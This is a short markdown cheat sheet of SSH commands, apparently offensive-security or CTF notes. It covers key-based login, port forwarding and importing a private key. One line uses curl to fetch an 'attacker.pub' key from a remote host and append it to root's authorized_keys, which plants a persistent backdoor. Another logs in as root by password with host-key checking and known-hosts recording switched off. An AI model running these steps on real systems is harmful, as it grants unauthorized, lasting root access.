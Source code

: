 # SSH

Add public key to autherized keys from web server response:

```bash
curl 10.10.10.10/attacker.pub >>  /root/.ssh/authorized_keys
```

start ssh with password and server from variable, with clean slate:

```bash
sshpass -p $2 ssh -o GlobalKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@$1
```

Login with specific private key:

```bash
ssh -i <private key> <username>@<ip address>
```

Import private key:

```bash
vim <key name>
chmod 400 <key name>
```

proxy through remote host:

```bash
ssh -i key -L8000:10.10.10.1:80 10.10.10.2
ssh -i key -L8000:proxy:80 target
```
